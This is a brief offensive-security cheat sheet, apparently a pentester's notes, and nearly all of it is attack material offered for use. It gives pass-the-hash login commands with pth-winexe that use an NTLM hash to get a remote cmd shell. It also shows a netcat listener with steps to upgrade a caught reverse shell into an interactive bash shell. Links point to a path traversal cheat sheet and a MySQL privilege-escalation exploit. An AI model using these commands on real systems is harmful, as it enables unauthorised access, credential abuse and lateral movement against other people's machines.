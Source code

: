 #### Path traversal cheatsheet files
https://gracefulsecurity.com/path-traversal-cheat-sheet-windows/

#### Pass the hash login
First is a empty LM HASH, last one should work as well.
```
pth-winexe -U <USERNAME>%aad3b435b51404eeaad3b435b51404ee:<NTLM HASH> //<IP> cmd
pth-winexe -U <USERNAME>%<LM HASH>:<NTLM HASH> //<IP> cmd
pth-winexe -U <USERNAME>%:<NTLM HASH> //<IP> cmd
```

#### Mysql raptor exploit but better
https://www.exploit-db.com/exploits/46249

#### Bash fully interactive shell
```
Start without tmux a /bin/bash shell
nc -lvp <PORT>
python -c 'import pty;pty.spawn("/bin/bash")'
Ctrl+Z
stty raw -echo
fg
export TERM=screen
```
